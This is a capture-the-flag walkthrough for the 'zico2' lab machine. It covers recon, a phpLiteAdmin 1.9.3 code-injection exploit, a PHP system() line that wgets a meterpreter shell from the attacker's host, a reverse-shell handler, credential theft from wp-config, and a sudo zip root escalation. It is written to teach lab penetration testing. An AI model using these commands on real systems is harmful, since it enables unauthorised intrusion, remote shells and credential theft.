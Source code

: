 +++
title = "zico2"
slug = "zico2"
+++

# zico2

## Recon:

Start off with netdiscover to find the host:

{% highlight bash %}
 Currently scanning: Finished!   |   Screen View: Unique Hosts

 6 Captured ARP Req/Rep packets, from 3 hosts.   Total size: 360
 _____________________________________________________________________________
   IP            At MAC Address     Count     Len  MAC Vendor / Hostname
 -----------------------------------------------------------------------------
 192.168.171.1   00:50:56:c0:00:01      1      60  VMware, Inc.
 192.168.171.135 00:0c:29:a2:b5:1b      2     120  VMware, Inc.
 192.168.171.254 00:50:56:e5:61:61      3     180  VMware, Inc.
{% endhighlight %}

Next run nmap and find ports 22, 80, 111 open.

Time to run gobuster using wordlists generated from dirbuster and seclists:

{% highlight bash %}
screen -S gobuster go run ~/go/src/gobuster -w wordlistzico.txt -u http://192.168.171.135

// (Status: 200)
//js/ (Status: 200)
//css/ (Status: 200)
//?q=user/register/ (Status: 200)
//?q=user/login/ (Status: 200)
//?q=search/ (Status: 200)
//?q=user/password/ (Status: 200)
//?q=comment/reply/ (Status: 200)
//?q=node/add/ (Status: 200)
//?q=admin/ (Status: 200)
//index (Status: 200)
//img/ (Status: 200)
//?q=user/logout/ (Status: 200)
//?q=filter/tips/ (Status: 200)
//?level=12 (Status: 200)
//? (Status: 200)
/?&what= (Status: 200)
//?q=contact/ (Status: 200)
//?q=logout/ (Status: 200)
//?q=* (Status: 200)
//?msk (Status: 200)
//?favorites (Status: 200)
//?* (Status: 200)
//view.php (Status: 200)
/js (Status: 301)
/css (Status: 301)
/img (Status: 301)
/tools (Status: 200)
/index (Status: 200)
/view (Status: 200)
/dbadmin (Status: 301)
/vendor (Status: 301)
/package (Status: 200)
/LICENSE (Status: 200)
/img (Status: 301)
/index (Status: 200)
/package (Status: 200)
/view (Status: 200)
/tools (Status: 200)
{% endhighlight %}

The dbadmin loads up a sql web admin, try admin as the pass and login successfully.

Now to lookup this version of phpliteadmin, 1.9.3

{% highlight bash %}
searchsploit phpliteadmin

PHPLiteAdmin 1.9.3 - Remote PHP Code Injection | exploits/php/webapps/24044.txt
{% endhighlight %}

Looks like it worked after following steps from the exploit description and we have a way to get a reverse shell going.

Now to generate a PHP meterpreter script:

{% highlight bash %}
msfvenom -p php/meterpreter/reverse_tcp LHOST=192.168.171.136 LPORT=4444 R > shell.php
{% endhighlight %}

Now to get a shell onto the box by adding a malicious DB column:

{% highlight php %}
<?php system("wget http://192.168.171.136:8000/shell.php -O /usr/databases/shell.php");?>
{% endhighlight %}

Now get meterpreter running:

{% highlight bash %}
msfconsole
use exploit/multi/handler
set PAYLOAD php/meterpreter/reverse_tcp
set LHOST 192.168.171.136
set LPORT 4444
exploit
{% endhighlight %}

Then hit the page in the browser.

After some grepping I found a WordPress install, check the config for user/passwords:

{% highlight bash %}

cat /home/zico/wordpress/wp-config | grep -i 'user' && cat /home/zico/wordpress | grep -i 'pass'

{% endhighlight %}

Try SSHing with the user/pass and succeed, next run LinEnum and linuxprivchecker.py, but none of the exploits reported seem to work, after a lot of head baning, check out the allowed/banned sudo commands this user has:

{% highlight bash %}
zico@zico:~$ sudo -l
Matching Defaults entries for zico on this host:
    env_reset, exempt_group=admin, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User zico may run the following commands on this host:
    (root) NOPASSWD: /bin/tar
    (root) NOPASSWD: /usr/bin/zip

sudo -u root zip /tmp/exploit.zip /tmp/exploit -T --unzip-comand="sh -c /bin/bash"

{% endhighlight %}

Get flag:

{% highlight bash %}

root@zico:~# cd /root/
root@zico:/root# ls
flag.txt
root@zico:/root# cat flag.txt
#
#
#
# ROOOOT!
# You did it! Congratz!
#
# Hope you enjoyed!
#
#
#
#

{% endhighlight %}
